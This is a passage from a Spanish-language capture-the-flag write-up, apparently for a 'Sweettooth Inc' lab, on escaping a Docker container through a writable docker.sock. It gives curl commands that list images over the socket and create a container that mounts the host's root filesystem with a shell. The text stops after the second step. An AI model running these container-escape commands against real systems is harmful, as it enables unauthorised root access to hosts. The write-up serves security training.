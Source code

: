 # \escape!

Como aún estamos en una máquina virtual, necesitamos realizar otra enumeración.

<figure><img src="../.gitbook/assets/Sweettooth Inc/doker.png" alt=""><figcaption></figcaption></figure>

Aunque no descubrimos nada nuevo, sabemos que estamos en un contenedor y que tenemos permisos de escritura dentro de este `socket` de `docker`, lo que nos permite buscar una forma de escapar. Siguiendo los pasos del siguiente artículo, podemos lograr salir de este Docker.

{% embed url="https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html?highlight=writable%20docker#using-docker-api-directly" %}

Dado que estamos utilizando `curl` para explotar la vulnerabilidad, nos da un error porque necesitamos un binario más actualizado. Por lo tanto, lo descargamos desde el siguiente enlace:

{% embed url="https://github.com/moparisthebest/static-curl/releases/tag/v7.78.0?ref=unhackable.lol" %}

Ahora seguimos los pasos:

*IMPORTANTE: Al enumerar las imágenes de `Docker`, asegúrate de copiar el contenido del `ID`, ya que lo necesitarás para crear nuestro contenedor. Además, también debes copiar el `ID` que se genera al crear el contenedor para redirigir las salidas hacia el contenedor creado.*

1. Enumerar imágenes de Docker: Recupere la lista de imágenes disponibles.

```bash
./curl-amd64 -XGET --unix-socket /var/run/docker.sock http://localhost/images/json
```


2. Crear un contenedor: Envíe una solicitud para crear un contenedor que monte el directorio raíz del sistema host.

```bash
./curl-amd64 -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d '{"Image":"<ImageID>","Cmd":["/bin/sh"],"DetachKeys":"Ctrl-p,Ctrl-q","OpenStdin":true,"Mounts":[{"Type":"bind","Source":"/","Target":"/host_root"}]}' http://localhost/containers/create
```
